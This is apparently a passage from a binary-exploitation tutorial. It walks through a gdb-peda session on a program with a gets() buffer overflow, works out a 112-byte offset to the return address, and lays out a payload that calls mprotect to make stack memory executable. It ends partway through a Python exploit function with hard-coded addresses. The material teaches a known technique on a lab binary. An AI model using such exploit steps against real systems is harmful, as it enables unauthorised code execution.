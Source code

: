             Breakpoint 1, 0x0804843b in func ()
            gdb-peda$ 


    * Look at the stack. The Top of the stack has the Return Address. The Stack address is 0xffffcc2c. 

    * Let us stop just before **gets** is executed. The buffer address is given as argument to gets. Look at the following state. 

            [-------------------------------------code-------------------------------------]
            0x8048441 <func+6>:	sub    esp,0xc
            0x8048444 <func+9>:	lea    eax,[ebp-0x6c]
            0x8048447 <func+12>:	push   eax
            => 0x8048448 <func+13>:	call   0x8048300 <gets@plt>
            0x804844d <func+18>:	add    esp,0x10
            0x8048450 <func+21>:	nop
            0x8048451 <func+22>:	leave  
            0x8048452 <func+23>:	ret
            Guessed arguments:
            arg[0]: 0xffffcbbc --> 0xf7e5de12 (<__overflow+66>:	add    esp,0x14)
            arg[1]: 0x804b008 ("Before calling func\n")
            [------------------------------------stack-------------------------------------]
            0000| 0xffffcba0 --> 0xffffcbbc --> 0xf7e5de12 (<__overflow+66>:	add    esp,0x14)
            0004| 0xffffcba4 --> 0x804b008 ("Before calling func\n")
            0008| 0xffffcba8 --> 0x14 
            0012| 0xffffcbac --> 0xf7e5d3ac (<_IO_file_overflow+12>:	add    edx,0x147c54)
            0016| 0xffffcbb0 --> 0xf7fa5000 --> 0x1b1db0 
            0020| 0xffffcbb4 --> 0xf7fa5d60 --> 0xfbad2a84 
            0024| 0xffffcbb8 --> 0xf7fa6870 --> 0x0 
            0028| 0xffffcbbc --> 0xf7e5de12 (<__overflow+66>:	add    esp,0x14)
            [------------------------------------------------------------------------------]
            Legend: code, data, rodata, value
            0x08048448 in func ()
            gdb-peda$ 

    * Look at the Top of stack. **0xffffcbbc** is the buffer address. 

* junk_length = stack_address_where_return_address_is_found - buffer_address = 0xffffcc2c - 0xffffcbbc = **112** bytes. 

The payload is like this: 


    <'a' - 112 bytes><mprotect_address - 4 bytes><mprotect's return address - 4 bytes><argument0 - 4 bytes><argument1 - 4 bytes><argument2 - 4 bytes>

For now, let mprotect's return address be **0x63636363** or "cccc". 

First, load all the values into variables. 

    def exploit() :

        junk_length = 112

        # Variables related to calling mprotect.
        mprotect_address = 0xf7ed5da0
        return_address = 0x63636363
        argument0 = 0xfffdc000
        argument1 = 139264
        argument2 = 7

